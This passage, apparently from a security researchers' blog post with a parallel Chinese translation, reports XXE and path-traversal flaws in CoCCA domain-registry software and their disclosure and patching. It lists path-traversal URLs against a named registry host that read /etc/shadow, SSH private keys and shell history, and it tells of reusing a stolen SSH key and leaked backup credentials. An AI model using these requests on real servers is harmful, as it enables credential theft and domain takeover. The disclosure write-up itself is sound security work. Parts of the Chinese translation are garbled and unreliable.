The XXE can also be used to exfiltrate files, and through the [FTP trick](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb), it is possible to obtain files that contain new lines or control characters.  
XXE 也可以用来过滤文件，通过 FTP 技巧，可以获得包含新行或控制字符的文件。

Given that we could access the `/etc/shadow` file on most servers running this software, it was clear to us that we could access any file on the filesystem, and the application was probably running as root (!!).  
考虑到我们可以访问运行此软件的大多数服务器上的 `/etc/shadow` 文件，我们很清楚我们可以访问文件系统上的任何文件，并且应用程序可能以 root（！！）运行。

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Proving Impact"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

Now that we've established the ground work to be able to compromise servers running the CoCCA registry software, how much damage could an attacker really do?  
既然我们已经建立了能够危害运行 CoCCA 注册表软件的服务器的基础工作，那么攻击者真正能造成多大的损害？

For the purposes of proving the impact, and given the rise of AI, we focused our efforts on the `.AI` ccTLD. The following files were able to be obtained through the vulnerabilities we discovered:  
为了证明其影响力，并考虑到人工智能的兴起，我们将精力集中在 `.AI` ccket 上。通过我们发现的漏洞可以获得以下文件：

```bash
https://epp.whois.ai/cities?country=/../../../../../../../../etc/shadow
https://epp.whois.ai/cities?country=/../../../../../../../../home/vince/.ssh/known_hosts
https://epp.whois.ai/cities?country=/../../../../../../../../opt/resin/log/oteaccess.log
https://epp.whois.ai/cities?country=/../../../../../../../../home/garth_cocca/.bash_history
https://epp.whois.ai/cities?country=/../../../../../../../../opt/resin/conf/resin.xml
https://epp.whois.ai/cities?country=/../../../../../../../../root/.psql_history
https://epp.whois.ai/cities?country=/../../../../../../../../home/vince/.ssh/id_rsa
```

We discovered that one of the maintainers of the `.AI` registry is a person named Vince. Given that the files obtained via this vulnerability gave us his SSH private key, we validated that we could login to his server, which contained several GPG encrypted backups of the entire .AI registry.  
我们发现 `.AI` 注册表的维护者之一是一个叫 Vince 的人。鉴于通过此漏洞获得的文件为我们提供了他的 SSH 私钥，我们验证了我们可以登录到他的服务器，其中包含整个.AI 注册表的几个 GPG 加密备份。

We got in touch with Vince, and he thankfully put us in touch with the relevant people as well as acted diligently in resolving the vulnerabilities on his systems. Temporarily taking them offline while a fix was made available.  
我们与 Vince 取得了联系，感谢他让我们与相关人员取得了联系，并努力解决了他系统上的漏洞。在修复程序可用时暂时将其脱机。

Speaking with Vince (the administrator of the .ai zone) over WhatsApp, we confirmed that compromising this server would give us full control over any .ai domain:  
通过 WhatsApp 与 Vince（.ai 区域的管理员）进行了交谈，我们确认，破坏此服务器将使我们给予对任何.ai 域名的完全控制权：



The impact unfortunately does not stop there, in the process of reading files from various registry servers running CoCCA, we discovered a file called [`upload-files-box-com.sh`](https://registry.nic.shia/cities?country=/../../../../../../../../root/upload-files-box-com.sh).  
不幸的是，影响还不止于此，在从运行 CoCCA 的各种注册表服务器阅读文件的过程中，我们发现了一个名为 `upload-files-box-com.sh` 的文件。

As the filename suggests, this script was responsible for taking a full database backup and uploading them to a central box.com account. We validated that these credentials were valid and led to the ability to compromise almost every major ccTLD that was running the CoCCA application:  
正如文件名所示，该脚本负责进行完整的数据库备份并将其上传到中央 box.com 帐户。我们验证了这些凭据是有效的，并导致能够危害几乎所有运行 CoCCA 应用程序的主要 ccs：



Oh no.... 哦不...

These database backups are essentially game over. Once administrative access is gained to the CoCCA application, it is possible to control the nameservers for every domain for that ccTLD. Additional impact included the ability to transfer domains that don't belong to you.  
这些数据库备份基本上是游戏结束。一旦获得了对 CoCCA 应用程序的管理访问权限，就可以控制该 CCCA 的每个域的名称服务器。其他影响包括转移不属于您的域的能力。

All of this was communicated to the affected parties and all of the EPP servers running the CoCCA software that were managed by this central entity have been patched. Whether or not they are still uploading all the database backups to a central box.com account is unknown, but it is clear that the internet is so, so brittle.  
所有这些都已传达给受影响的各方，并且由该中央实体管理的运行 CoCCA 软件的所有 EPP 服务器都已被修补。他们是否仍然将所有数据库备份上传到一个中央 box.com 帐户尚不清楚，但很明显，互联网是如此脆弱。

The latest version of the CoCCA software contains patches for all of the vulnerabilities we discovered.  
最新版本的 CoCCA 软件包含我们发现的所有漏洞的补丁。

```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Future Work"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

While we looked at CoCCA in detail, there are two other major registry software that we are aware of where the source code has been made available.  
虽然我们详细研究了 CoCCA，但我们知道还有两个主要的注册表软件的源代码。

[Nomulus](https://github.com/google/nomulus), registry software created and used by Google. You can find this software in production, here: [domain-registry.appspot.com](https://domain-registry.appspot.com/)  
Nomulus 是 Google 创建和使用的注册表软件。您可以在生产中找到此软件，网址：domain-registry.appspot.com

Fortunately, [Google's defensive programming](https://github.com/google/nomulus/blob/79ba1b94c4102ccb2ae25f48c6961365cb426ac6/core/src/main/java/google/registry/xml/XmlTransformer.java#L113), prevented them from being vulnerable to XXE via EPP messages:  
幸运的是，谷歌的防御性编程，防止他们容易受到 XXE 通过 EPP 消息：

```java
  private static XMLInputFactory createInputFactory() throws FactoryConfigurationError {
    // Prevent XXE attacks.
    XMLInputFactory xmlInputFactory = XMLInputFactory.newFactory();
    xmlInputFactory.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
    xmlInputFactory.setProperty(XMLInputFactory.SUPPORT_DTD, false);
    return xmlInputFactory;
  }
```

We spent a significant amount of time on Google's registry software and discovered an endpoint that we believe are not supposed to be accessed without authentication, but given that we couldn't prove much security impact, it was not reported to Google.  
我们在 Google 的注册表软件上花了大量时间，发现了一个端点，我们认为在没有身份验证的情况下不应该访问该端点，但鉴于我们无法证明它对安全有多大影响，因此没有向 Google 报告。

Another registry software that could be a great research target is [Fred](https://fred.nic.cz/documentation/html/Architecture/Deployment.html#web-node), which is managed by the team at nic.cz. It is being used by a lot of different registries, and any pre-authentication vulnerability in this could be critical to the domain infrastructure for the following ccTLDs:  
另一个可能成为研究目标的注册表软件是 Fred，它由 nic.cz 的团队管理。它被许多不同的注册中心使用，其中的任何预身份验证漏洞都可能对以下 ccTLD 的域基础设施至关重要：



```txt
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"Closing Notes"
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```

We thank the CoCCA team for fixing all the issues we identified, Vince from nic.ai, and Mike Damm from Zuffix Domains.  
我们感谢 CoCCA 团队修复了我们发现的所有问题，感谢 nic.ai 的 Vince 和 Zufix Domains 的 Mike Damm。

  

  

#### Written by [hackcompute group](https://hackcompute.com/author/hackcompute/)

Read [more posts](https://hackcompute.com/author/hackcompute/) by this author.
